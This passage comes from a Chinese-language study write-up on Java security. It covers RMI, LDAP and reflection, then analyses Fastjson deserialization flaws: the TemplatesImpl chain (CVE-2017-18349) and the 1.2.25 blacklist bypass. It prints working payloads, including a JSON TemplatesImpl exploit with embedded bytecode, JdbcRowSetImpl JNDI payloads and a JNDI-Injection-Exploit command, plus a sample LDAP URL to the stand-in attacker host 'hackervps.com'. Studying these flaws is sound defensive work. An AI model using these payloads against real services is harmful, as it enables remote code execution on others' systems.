```

接着是服务端代码：

```plain
package org.example;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class Server extends UnicastRemoteObject implements Calculator {
    public Server() throws RemoteException {}

    @Override
    public int add(int x, int y) throws RemoteException {
        return x + y;
    }

    @Override
    public int subtract(int a, int b) throws RemoteException {
        return 0;
    }

    @Override
    public int multiply(int a, int b) throws RemoteException {
        return 0;
    }

    @Override
    public int divide(int a, int b) throws RemoteException {
        return 0;
    }

    public static void main(String args[]) {
        try {
            Server obj = new Server();
            LocateRegistry.createRegistry(1060);
            Registry registry = LocateRegistry.getRegistry(1060);
            registry.bind("Calculator", obj);
            System.out.println("Server ready");
        } catch (Exception e) {
            System.err.println("Server exception: " + e.toString());
            e.printStackTrace();
        }
    }
}
```

然后开始跑程序，不需要做任何配置。  
先把服务端跑起来：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170439-9ae5ce8c-ba97-1.jpeg)  
然后客户端这里就可以直接运行`5+7`的结果了：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170440-9b458570-ba97-1.jpeg)

### （2）深入理解 rmi

建议直接看素十八师傅的博客以及天下大木头的微信公众号文章，写的真的是太好了，都是适合细细品味的文章。

> [https://su18.org/post/rmi-attack/](https://su18.org/post/rmi-attack/)  
> [https://mp.weixin.qq.com/s/wYujicYxSO4zqGylNRBtkA](https://mp.weixin.qq.com/s/wYujicYxSO4zqGylNRBtkA)

## 5\. ldap 是什么？

`LDAP`是轻型目录访问协议的缩写，是一种用于访问和维护分层目录信息的协议。在`Java`安全中，`LDAP`通常用于集成应用程序与企业目录服务（例如`Microsoft Active Directory`或`OpenLDAP`）的认证和授权功能。  
使用`Java`的`LDAP API`，我们可以编写`LDAP`客户端来执行各种`LDAP`操作，如绑定（`bind`）到`LDAP`服务器、搜索目录、添加、修改和删除目录条目等。`Java LDAP API`支持使用简单绑定（`simple bind`）或`Kerberos`身份验证（`Kerberos authentication`）进行`LDAP`身份验证。  
`Java`应用程序可以使用`LDAP`来实现单点登录和跨域身份验证，并与其他应用程序和服务共享身份验证信息。`LDAP`还可以用于管理用户、组和权限，以及存储和管理应用程序配置信息等。  
总结：`Java`中的`LDAP`是一种使用`Java`编写`LDAP`客户端来集成企业目录服务的技术，可以提供安全的身份验证和授权功能，以及方便的用户和配置管理。  
这么说还是太抽象了，我们还是看一个`demo`来快速熟悉一下吧。

### （1）安装并配置 ldap 服务器

这里我们选择`OpenLDAP`来进行安装。[官网](https://www.openldap.org/)只提供了`Linux`版本，我们可以去德国公司`maxcrc`的官网上面去下载`openldap for windows`：

> [https://www.maxcrc.de/en/download-en/](https://www.maxcrc.de/en/download-en/)

这里我们选择`64`位的，懒人链接：[https://www.maxcrc.de/wp-content/uploads/2020/04/OpenLDAPforWindows\_x64.zip](https://www.maxcrc.de/wp-content/uploads/2020/04/OpenLDAPforWindows_x64.zip)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170440-9ba77aa0-ba97-1.jpeg)  
然后参考这篇文章进行安装：

> [https://blog.csdn.net/oscar999/article/details/108654461](https://blog.csdn.net/oscar999/article/details/108654461)

成功启动`ldap`服务：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170441-9bfec71a-ba97-1.jpeg)  
顺便一提，在 Windows 上可以使用 LDAP Browser 来快速浏览查看查询，官网及下载地址如下：

> [https://ldapbrowserwindows.com/](https://ldapbrowserwindows.com/)  
> [https://ldapclient.com/downloads610/LdapBrowser-6.10.x-win-x86-Setup.msi](https://ldapclient.com/downloads610/LdapBrowser-6.10.x-win-x86-Setup.msi)

啪的一下就连接上了，快啊，很快啊：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170441-9c441ebe-ba97-1.jpeg)

### （2）通过公司 - 员工管理的例子来理解 Fastjson 系列漏洞中 ldap 的作用

假设有一个名为"`example.com`"的公司，需要存储和管理员工信息。他们使用`LDAP`作为员工信息的目录服务，每个员工都在`LDAP`中有一个唯一的标识符（`DN`）。这里我们举两个员工例子：

```plain
DN: uid=john,ou=People,dc=example,dc=com
cn: John Doe
sn: Doe
givenName: John
uid: john
userPassword: {SHA}W6ph5Mm5Pz8GgiULbPgzG37mj9g=

DN: uid=alice,ou=People,dc=example,dc=com
cn: Alice Smith
sn: Smith
givenName: Alice
uid: alice
userPassword: {SHA}W6ph5Mm5Pz8GgiULbPgzG37mj9g=
```

在`LDAP`中，`DN`是一个唯一的标识符，它类似于文件系统中的路径。每个`DN`由多个`RDN`（相对区分名称）组成，例如：

```plain
uid=john,ou=People,dc=example,dc=com
```

这个`DN`由三个`RDN`组成：`uid=john`、`ou=People`、`dc=example,dc=com`。  
可以使用如下`LDAP`查询语句来检索员工信息，例如：`(&(objectClass=person)(uid=john))`  
这个查询语句表示查找所有`objectClass`为`person`，且`uid`为`john`的员工信息。在`LDAP`中，查询语句使用`LDAP`搜索过滤器（`LDAP Search Filter`）进行筛选。在`Fastjson`漏洞中，攻击者可以通过构造特定的`LDAP`查询语句，来执行任意代码或获取敏感信息。例如，以下`JSON`字符串包含一个恶意构造的`LDAP URL`：

```plain
{"@type":"java.net.URL","val":"ldap://hackervps.com/exp"}
```

当`Fastjson`解析该`JSON`字符串时，会触发`LDAP`查询操作，查询`hackervps.com`上的`LDAP`服务，并执行名为“`exp`”的操作。这就是`Fastjson`漏洞的成因之一。

## 6\. java 反射是什么？

参考：

> [https://www.javasec.org/javase/Reflection/Reflection.html](https://www.javasec.org/javase/Reflection/Reflection.html)

### （1）通过 demo 快速理解反射

如果我们不用反射的话，我们写的代码会是下面这样：  
`Person.java`：

```plain
package org.example;

public class Person {
    private String name;
    private int age;

    public Person(String name, int age) {
        this.name = name;
        this.age = age;
    }

    public void sayHello() {
        System.out.println("Hello, my name is " + name + ", I'm " + age + " years old.");
    }

    public void setAge(int age) {
        this.age = age;
    }

    @Override
    public String toString() {
        return "Person{" +
                "name='" + name + '\'' +
                ", age=" + age +
                '}';
    }
}
```

`Main.java`：

```plain
package org.example;

public class Main {
    public static void main(String[] args) {
        // 创建 Person 对象
        Person person = new Person("张三", 20);

        // 调用Person对象的sayHello方法
        person.sayHello();

        // 修改Person对象的age属性
        person.setAge(30);

        // 输出修改后的Person对象信息
        System.out.println(person);
    }
}
```

运行结果如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170442-9c97cd5c-ba97-1.jpeg)  
可以看到，我们一开始设置人的名字为张三，年龄为`20`，然后我们通过`setAge`方法来修改`Person`的`Age`属性，把年龄改成`30`。  
但是这么写是有问题的，因为我们不可能总是在编译之前就已经确定好我们要具体改什么值了，我们更希望这个值可以动态变化，所以需要用到`Java`反射技术。我们可以修改上面的`Main.java`为如下内容：

```plain
package org.example;

import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class Main {
    public static void main(String[] args) throws Exception {
        // 获取 Person 类的 Class 对象
        Class<?> clazz = Class.forName("org.example.Person");

        // 创建Person对象
        Constructor<?> constructor = clazz.getConstructor(String.class, int.class);
        Object person = constructor.newInstance("张三", 20);

        // 调用Person对象的sayHello方法
        Method method = clazz.getMethod("sayHello");
        method.invoke(person);

        // 修改Person对象的age属性
        Field field = clazz.getDeclaredField("age");
        field.setAccessible(true);
        field.set(person, 30);

        // 输出修改后的Person对象信息
        System.out.println(person);
    }
}
```

这样我们就可以来动态创建对象、调用方法以及修改属性等。

#### 问题：我还是觉得你给出的例子体现不出灵活，怎么办？

不急，我们来看这么个例子：  
假设我们有一个配置文件，里面记录了类的名称、方法名、属性名等信息，我们可以在运行时读取配置文件，然后使用`Java`反射机制来创建对象、调用方法、修改属性等。这样就可以实现在不修改代码的情况下，根据配置文件来动态地创建对象、调用方法、修改属性，这样不就是很灵活很方便了么？我们来尝试用代码实现下。  
先建立一个配置文件，比如叫做`config.properties`，填写如下信息：

```plain
class=org.example.Person
method=sayHello
field=age
value=30
name=W01fh4cker
```

然后修改`Main.java`：

```plain
package org.example;

import java.io.FileInputStream;
import java.util.Properties;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class Main {
    public static void main(String[] args) throws Exception {
        // 读取配置文件
        Properties props = new Properties();
        props.load(new FileInputStream("config.properties"));

        // 获取类的名称、方法名、属性名、属性值、姓名
        String className = props.getProperty("class");
        String methodName = props.getProperty("method");
        String fieldName = props.getProperty("field");
        String fieldValue = props.getProperty("value");
        String name = props.getProperty("name");

        // 获取类的Class对象
        Class<?> clazz = Class.forName(className);

        // 获取类的有参构造方法
        Constructor<?> constructor = clazz.getConstructor(String.class, int.class);

        // 创建类的对象
        Object obj = constructor.newInstance(name, 0);

        // 调用方法
        Method method = clazz.getMethod(methodName);
        method.invoke(obj);

        // 修改属性
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, Integer.parseInt(fieldValue));

        // 输出修改后的对象信息
        System.out.println(obj);
    }
}
```

运行结果为：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170443-9cffd136-ba97-1.jpeg)

### （2）【关键！】和漏洞之间的联系？

前面讲了这么多关于反射的内容，可能很多初学者和我现在一样，处于一脸懵逼的状态，为什么要用到反射，而不是直接调用`java.lang.runtime`来执行命令？  
例如我们平时经常这么玩：

```plain
package org.example;

import org.apache.commons.io.IOUtils;

public class Main {
    public static void main(String[] args) throws Exception {
        System.out.println(IOUtils.toString(Runtime.getRuntime().exec("calc.exe").getInputStream(), "UTF-8"));
    }
}
```

要运行上述代码，需要在 maven 中引入如下依赖：

```plain
<dependency>
    <groupId>commons-io</groupId>
    <artifactId>commons-io</artifactId>
    <version>2.11.0</version>
</dependency>
```

需要注意的是，要在上述依赖的上线加入`<dependencies></dependencies>`，如下图，然后点击如下图标来自动安装依赖：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170443-9d46f70a-ba97-1.jpeg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124181503-70c5a226-baa1-1.jpeg#averageHue=%23f9f9f8&clientId=ud95377f6-2eb9-4&from=paste&height=818&id=u7768c829&name=a4218697fec3a30e3ce077ccb178fbe.png&originHeight=1022&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=true&size=127735&status=done&style=none&taskId=u83af4e91-9633-4d94-a87f-67085301d4f&title=%E5%B7%A6%E4%B8%8B%E6%96%B9%E5%8F%AF%E4%BB%A5%E7%9C%8B%E5%88%B0%E6%AD%A3%E5%9C%A8%E4%B8%8B%E8%BD%BD%E4%BE%9D%E8%B5%96&width=1536)  
然后运行程序，就会弹出计算器了：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170444-9daae9ae-ba97-1.jpeg)  
这么做不就是可以执行命令了吗，为什么还要搞反射呢？  
**原来，**`**Java**`**安全机制会对代码的执行进行限制，例如限制代码的访问权限、限制代码的资源使用等。如果代码需要执行一些危险的操作，例如执行系统命令，就需要获取**`**Java**`**的安全权限。获取**`**Java**`**的安全权限需要经过一系列的安全检查，例如检查代码的来源、检查代码的签名等。如果代码没有通过这些安全检查，就无法获取**`**Java**`**的安全权限，从而无法执行危险的操作。然而，反射机制可以绕过**`**Java**`**安全机制的限制，比如可以访问和修改类的私有属性和方法，可以调用类的私有构造方法，可以创建和访问动态代理对象等。这些操作都是**`**Java**`**安全机制所禁止的，但是反射机制可以绕过这些限制，从而执行危险的操作。**  
原来如此！好了，现在来学习如何使用反射调用`java.lang.runtime`来执行命令，由于 Java9 之后，模块化系统被引入，模块化系统会限制反射的使用，从而提高`Java`应用程序的安全性，因此我们要区分版本来学习！为了方便演示，我重新建立了一个项目，并使用`Java8`。  
我们先看如下代码：

```plain
// Java version: 8
package org.example;

import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Method;

public class Main {
    public static void main(String[] args) throws Exception {
        Class<?> runtimeClass = Class.forName("java.lang.Runtime");
        Method execMethod = runtimeClass.getMethod("exec", String.class);
        Process process = (Process) execMethod.invoke(Runtime.getRuntime(), "calc.exe");
        InputStream in = process.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(in));
        String line;
        while ((line = reader.readLine()) != null) {
            System.out.println(line);
        }
    }
}
```

成功执行：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170444-9e0c8150-ba97-1.jpeg)  
然后再看在`Java17`下的执行反射的代码：

```plain
// // Java version: 17
package org.example;

import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.invoke.MethodHandle;
import java.lang.invoke.MethodHandles;
import java.lang.invoke.MethodType;

public class Main {
    public static void main(String[] args) throws Throwable {
        // 获取 Runtime 类对象
        Class<?> runtimeClass = Class.forName("java.lang.Runtime");
        MethodHandle execMethod = MethodHandles.lookup().findVirtual(runtimeClass, "exec", MethodType.methodType(Process.class, String.class));
        Process process = (Process) execMethod.invokeExact(Runtime.getRuntime(), "calc.exe");
        InputStream in = process.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(in));
        String line;
        while ((line = reader.readLine()) != null) {
            System.out.println(line);
        }
    }
}
```

执行结果：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170445-9e85018e-ba97-1.jpeg)

## 二、漏洞学习

## 1\. fastjson<=1.2.24 反序列化漏洞（CVE-2017-18349）（学习 TemplatesImpl 链的相关知识）

### （1）漏洞简单复现

我们看以下案例：  
首先创建一个`maven`项目、导入`Fastjson1.2.23`并自动下载相关依赖（怎么自动下载的见上文配图）：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170446-9ee79a06-ba97-1.jpeg)  
然后写入如下代码至`Main.java`（此时已经不需要`Person.java`了）：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124182553-f40935fc-baa2-1.jpeg)

运行之后直接弹出计算器：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170447-9f6b9e00-ba97-1.jpeg)

### （2）漏洞成因分析

上面的`text`里面的`_bytecodes`的内容是以下内容编译成字节码文件后（`.class`）再`base64`编码后的结果：

```plain
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Test extends AbstractTranslet {
    public Test() throws IOException {
        Runtime.getRuntime().exec("calc");
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

    }

    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```

可以看到，我们通过以上代码直接定义类`Test`，并在类的构造方法中执行`calc`的命令；至于为什么要写上述代码的第`14`\-`21`行，因为`Test`类是继承`AbstractTranslet`的，上述代码的两个`transform`方法都是实现`AbstractTranslet`接口的抽象方法，因此都是需要的；具体来说的话，第一个`transform`带有`SerializationHandler`参数，是为了把`XML`文档转换为另一种格式，第二个`transform`带有`DTMAxisIterator`参数，是为了对`XML`文档中的节点进行迭代。  
**总结：**对于上述代码，应该这么理解：建立`Test`类，并让其继承`AbstractTranslet`类，然后通过`Test t = new Test();`来初始化，这样我就是假装要把`xml`文档转换为另一种格式，在此过程中会触发构造方法，而我在构造方法中的代码就是执行`calc`，所以会弹出计算器。

#### ①问题 1：为什么要继承`AbstractTranslet`类？

参考`Y4tacker`师傅的文章：

> [https://blog.csdn.net/solitudi/article/details/119082164](https://blog.csdn.net/solitudi/article/details/119082164)

但是在实战场景中，`Java`的`ClassLoader`类提供了`defineClass()`方法，可以把字节数组转换成`Java`类的示例，但是这里面的方法的作用域是被`Protected`修饰的，也就是说这个方法只能在`ClassLoader`类中访问，不能被其他包中的类访问：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170447-9fb9a924-ba97-1.jpeg)  
但是，在`TransletClassLoader`类中，`defineClass`调用了`ClassLoader`里面的`defineClass`方法：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170448-a019dbd2-ba97-1.jpeg)  
然后追踪`TransletClassLoader`，发现是`defineTransletClasses`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170449-a0841b1e-ba97-1.jpeg)  
再往上，发现是`getTransletInstance`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170449-a0e937a6-ba97-1.jpeg)  
到此为止，要么是`Private`修饰要么就是`Protected`修饰，再往上继续追踪，发现是`newTransformer`，可以看到此时已经是`public`了：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170450-a154d312-ba97-1.jpeg)  
因此，我们的利用链是：

```plain
TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()
```

基于此，我们可以写出如下`POC`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124182554-f4a6bbe2-baa2-1.jpeg)

这段代码就可以动态生成恶意类，执行效果如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170451-a1cb6a86-ba97-1.jpeg)

#### ②为什么要这么构造`json`？

可以看到，我们最终构造的 json 数据为：

```plain
{
    "@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    "_bytecodes": ["yv66vgAAADQA...CJAAk="],
    "_name": "W01fh4cker",
    "_tfactory": {},
    "_outputProperties": {},
}
```

为什么这么构造呢？还是直接看`defineTransletClasses`这里：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170452-a2505868-ba97-1.jpeg)  
可以看到，逻辑是这样的：先判断`_bytecodes`是否为空，如果不为空，则执行后续的代码；后续的代码中，会调用到自定义的`ClassLoader`去加载`_bytecodes`中的`byte[]`，并对类的父类进行判断，如果是`ABSTRACT_TRANSLET`也就是`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`，那么就把类成员属性的`_transletIndex`设置成当前循环中的标记位，第一次调用的话，就是`class[0]`。  
可以看到，这里的`_bytecodes`和`_outputProperties`都是类成员变量。同时，`_outputProperties`有自己的`getter`方法，也就是`getOutputProperties`。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170452-a2aae0a8-ba97-1.jpeg)  
**总结：说详细一点，**`**TemplatesImpl**`**利用链的整体思路如下：**  
**构造一个**`**TemplatesImpl**`**类的反序列化字符串，其中**`**_bytecodes**`**是我们构造的恶意类的类字节码，这个类的父类是**`**AbstractTranslet**`**，最终这个类会被加载并使用**`**newInstance()**`**实例化。在反序列化过程中，由于**`**getter**`**方法**`**getOutputProperties()**`**满足条件，将会被**`**fastjson**`**调用，而这个方法触发了整个漏洞利用流程：**`**getOutputProperties()**` **->** `**newTransformer()**` **->** `**getTransletInstance()**` **->** `**defineTransletClasses()**` **/** `**EvilClass.newInstance()**`**。**  
**限制条件也很明显：需要代码中加了**`Feature.SupportNonPublicField`。

## 2\. fastjson 1.2.25 反序列化漏洞（学习 JdbcRowSetImpl 链的相关知识）

### （1）黑白名单机制介绍

众所周知，在`fastjson`自爆`1.2.24`版本的反序列化漏洞后，`1.2.25`版本就加入了黑白名单机制。  
例如我们更换并下载`1.2.25`版本的`fastjson`，然后再去执行原来的`poc`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170453-a3149282-ba97-1.jpeg)  
就会提示我们`autoType is not support`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170454-a397fcf8-ba97-1.jpeg)  
查看源码可以发现这里定义了反序列化类的黑名单：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170455-a4239f7e-ba97-1.jpeg)  
具体如下：

```plain
bsh
com.mchange
com.sun.
java.lang.Thread
java.net.Socket
java.rmi
javax.xml
org.apache.bcel
org.apache.commons.beanutils
org.apache.commons.collections.Transformer
org.apache.commons.collections.functors
org.apache.commons.collections4.comparators
org.apache.commons.fileupload
org.apache.myfaces.context.servlet
org.apache.tomcat
org.apache.wicket.util
org.codehaus.groovy.runtime
org.hibernate
org.jboss
org.mozilla.javascript
org.python.core
org.springframework
```

接下来我们定位到`checkAutoType()`方法，看一下它的逻辑：如果开启了`autoType`，那么就先判断类名在不在白名单中，如果在就用`TypeUtils.loadClass`加载，如果不在就去匹配黑名单：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170455-a49fadbc-ba97-1.jpeg)  
如果没开启`autoType`，则先匹配黑名单，然后再白名单匹配和加载；  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170456-a5026254-ba97-1.jpeg)  
最后，如果要反序列化的类和黑白名单都未匹配时，只有开启了`autoType`或者`expectClass`不为空也就是指定了`Class`对象时才会调用`TypeUtils.loadClass`加载，否则`fastjson`会默认禁止加载该类。  
我们跟进一下这里的`loadClass`方法：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170457-a55bdcbc-ba97-1.jpeg)  
问题就出在这里：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170457-a5c5daf4-ba97-1.jpeg)  
我们来仔细看下上图红框中的代码，代码的含义是：如果类名的字符串以`[`开头，则说明该类是一个数组类型，需要递归调用`loadClass`方法来加载数组元素类型对应的`Class`对象，然后使用`Array.newIntrance`方法来创建一个空数组对象，最后返回该数组对象的`Class`对象；如果类名的字符串以`L`开头并以`;`结尾，则说明该类是一个普通的`Java`类，需要把开头的`L`和结尾的`;`给去掉，然后递归调用`loadClass`。

### （2）黑白名单绕过的复现

基于以上的分析，我们可以发现，只要我们把`payload`简单改一下就可以绕过。  
我们需要先开启默认禁用的`autoType`，有以下三种方式：

```plain
使用代码进行添加：ParserConfig.getGlobalInstance().addAccept("org.example.,org.javaweb.");或者 ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
加上 JVM 启动参数：-Dfastjson.parser.autoTypeAccept=org.example.
在 fastjson.properties 中添加：fastjson.parser.autoTypeAccept=org.example.
```

我们先去`[https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0](https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0)`下载个`JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar`，然后启动利用工具：

```plain
java -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 127.0.0.1 -C "calc.exe"
```

选择下面的`JDK 1.8`的：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170458-a6315950-ba97-1.jpeg)  
然后在`Main.java`中写入如下代码：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124182555-f538bd30-baa2-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170459-a69b565c-ba97-1.jpeg)  
以上为第一种`poc`，在`JDK 8u181`下使用`ldap`测试成功，使用`rmi`测试失败。  
除此之外，另一种`poc`则需要满足漏洞利用条件为`JDK 6u113`、`7u97` 和 `8u77`之前，例如我们这里重新新建一个项目，并从`[https://www.oracle.com/uk/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/uk/java/technologies/javase/javase8-archive-downloads.html)`处下载`jdk-8u65-windows-x64.exe`并安装。  
然后利用新安装的`jdk 8u65`来启动`jndi exploit`：

```plain
"C:\Program Files\Java\jdk1.8.0_65\bin\java.exe" -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 127.0.0.1 -C "calc.exe"
```

导入`fastjson1.2.25`：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>fastjson_8u66_1_2_25</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.25</version>
        </dependency>
    </dependencies>
</project>
```

在`Main.java`中写入如下内容：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124182556-f5c5cfc2-baa2-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170500-a7091188-ba97-1.jpeg)

### （3）对两种 poc 绕过手法的分析

首先来说说限制，基于`JNDI+RMI`或`JDNI+LADP`进行攻击，会有一定的`JDK`版本限制。

```plain
RMI 利用的 JDK 版本 ≤ JDK 6u132、7u122、8u113
LADP 利用 JDK 版本 ≤ JDK 6u211、7u201、8u191
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170501-a7aa8838-ba97-1.jpeg)

#### ①第一种 poc（1.2.25-1.2.47 通杀！！！）

然后我们先来看**第一种**`poc`。  
我们仔细欣赏下第一种`poc`的`payload`：

```plain
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1/exp","autoCommit":true}}
```

我们会发现，加上`{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"}`就会绕过原本的`autoType`，由此我们可以猜测，针对未开启`autoType`的情况，`fastjson`的源代码中应该是有相关方法去针对处理的，并且利用我们的这种方式，正好可以对应上。  
于是我们直接去查看源代码，翻到`checkAutoType`的地方，可以看到，如果没开启`autoType`，就会有以下两种加载方式：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170502-a8bc2d94-ba97-1.jpeg)  
第一种是从`mappings`里面获取，也就是上图中的第`727`行代码，点进去之后可以看到：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170503-a9373912-ba97-1.jpeg)  
如果获取不到就采用第二种方法，也就是第`728`\-`730`行代码，从`deserializers`中获取。  
`deserializers`是什么呢？可以看`fastjson-1.2.25.jar!\com\alibaba\fastjson\parser\ParserConfig.class`的第`172`\-`241`行，里面是内置的一些类和对应的反序列化器。  
但是`deserializers`是`private`类型的，我们搜索`deserializers.put`，发现当前类里面有一个`public`的`putDeserializer`方法，可以向`deserializers`中添加新数据：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170504-a9ad82a2-ba97-1.jpeg)  
于是我们全局搜索该方法，发现就一个地方调用了，而且没办法寻找利用链：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170504-a9ecb332-ba97-1.jpeg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170505-aa4dae8a-ba97-1.jpeg)  
所以继续看第一种方法，从`mappings`获取的。可以看到，`mappings`这里也是`private`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170506-aaeb3790-ba97-1.jpeg)  
搜索`mappings.put`，可以看到在`TypeUtils.loadClass`中有调用到：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170507-ab49d4da-ba97-1.jpeg)  
于是我们全局搜索，可以看到有如下五处调用：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170507-abb558b8-ba97-1.jpeg)  
我们一个个看。  
第一个需要开启`autoType`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170508-ac1d745c-ba97-1.jpeg)  
第二个要在白名单内，第三个要开启`autoType`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170509-ac945e82-ba97-1.jpeg)  
第四个是在`MiscCodec.deserialze`中的，貌似没什么限制，我们先放一边：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170510-ad1c1eee-ba97-1.jpeg)  
第五个没办法利用，因为传不了参数，跳过：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170510-ad7f5734-ba97-1.jpeg)  
也就是说，只能从`MiscCodec.deserialze`这里来寻找突破口了。  
翻到`MiscCodec.java`的最上面可以看到，这个`MiscCodec`是继承了`ObjectSerializer`和`ObjectDeserializer`的：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170511-adf5eef8-ba97-1.jpeg)  
因此，可以判断，这个`MiscCodec`应该是个反序列化器，于是我们去之前的`deserializers`中看看都有谁用了：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170512-ae79270a-ba97-1.jpeg)  
挺多的，结合`MiscCodec`中一堆的`if`语句，可以判断，一些简单的类都被放在这里了。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170513-aef8ad54-ba97-1.jpeg)  
我们再来看这行代码：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170514-af766d20-ba97-1.jpeg)  
然后跟进`strVal`，看看是哪儿来的：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170514-afea5410-ba97-1.jpeg)  
继续跟进这个`objVal`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170515-b06e3276-ba97-1.jpeg)  
到这里就很明显了，那红框中的这段代码是什么意思呢？  
